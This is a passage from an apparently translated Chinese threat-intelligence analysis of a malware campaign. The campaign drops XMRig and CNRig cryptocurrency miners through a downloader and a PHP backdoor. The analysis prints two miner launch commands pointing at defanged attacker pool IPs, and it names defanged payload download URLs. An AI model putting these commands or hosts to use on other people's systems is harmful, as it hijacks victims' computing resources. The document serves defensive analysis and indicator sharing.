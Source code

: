 

## 恶意挖矿

执行时，此可执行文件将解压以下三个二进制文件：
1. winsystem.exe XMRig矿工
1. clock.exe 封装到EXE中的BAT文件
1. netflash.exe: 一个用.NET编写的简单的下载程序。
批处理脚本通过设置注册表项来添加持久性，清除某些进程(可能已经在运行的挖掘程序)，并通过启动以下步骤开始挖矿：

```
winsystem.exe -B -a cryptonight -o 37.1.197[.]121:80 -p x -u %COMPUTERNAME% +500 --max-cpu-usage=30 --donate-level=1 -k
```

[![](https://p3.ssl.qhimg.com/t01e4aea665a6095d8f.png)](https://p3.ssl.qhimg.com/t01e4aea665a6095d8f.png)

这些二进制文件基于来自一个挖矿软件的相同代码，托管在5.45.79[.]15/xxPhoto.exe上。使用VirusTotal Intelligence，我们能够在这个基础上进行扩展，并识别另一个挖矿程序，这一次是一个ELF文件，基于这个[cnrig](https://github.com/cnrig/cnrig)库，托管在：5.45.79[.]15/monero/cnrig。

[![](https://p3.ssl.qhimg.com/t01efca7e86d1e99247.png)](https://p3.ssl.qhimg.com/t01efca7e86d1e99247.png)

在[VirusTotal页面](https://www.virustotal.com/#/file/c890d18fe3753a9ea4d026fc713247a9b83070b6fe40539779327501916be031/community)上留下的注释表明，这个挖掘程序是在受感染的服务器上发现的，并且是从一个名为zz1.php的PHP后门下载的。在搜索该文件名时，我们找到了一个可能上传到公共站点的备用文件。通过解码Base64编码的字符串，我们可以更有信心地断言这是攻击者从5.45.79[.]15/monero/cnrig下载Linux挖矿软件时使用的恶意PHP文件：

[![](https://p5.ssl.qhimg.com/t013c811be7e205eb5c.png)](https://p5.ssl.qhimg.com/t013c811be7e205eb5c.png)

检索ELF二进制文件后，使用以下命令运行它，然后以便开始挖掘：

```
./cnrig -o 5.61.46[.]146:80 --donate-level=1 &gt; /dev/null 2&gt;&amp;1
```



## 代理

由于挖矿程序在没有使用钱包地址的情况下连接到私人矿池(很可能是通过代理)，我们无法评估攻击者通过这一计划赚了多少钱。

实际上，位于5.45.79[.]15的服务器也有自己的[ProxyPanel](https://github.com/krasniykrd/proxypanel)：

[![](https://p0.ssl.qhimg.com/t017f13b879d7e81af0.png)](https://p0.ssl.qhimg.com/t017f13b879d7e81af0.png)

XMRig版本的挖矿程序有一个公共统计页面，显示有近500台受害的机器参与了挖矿活动。对于CNRig版本，我们无法找到任何这样的统计数据，尽管被黑客攻击的服务器数量要高得多。



## 越来越多的网站

人们对加密货币的兴趣极大地改变了恶意软件领域，犯罪分子希望从中分一杯羹。因此，越来越多的网站，无论是客户端还是服务器端，都被用来分发和运营挖矿程序。

在这个活动中，我们看到了通过诱使用户下载他们在网上搜索的文件来将XMRig推送到用户的基础设施。与此同时，被黑客攻击的服务器被指示下载并运行一个Linux矿工，从而为攻击者带来利润，但也给其所有者带来了成本。最后，看到Coinhive的短链接被滥用来进行浏览器挖矿似乎是合情合理的。
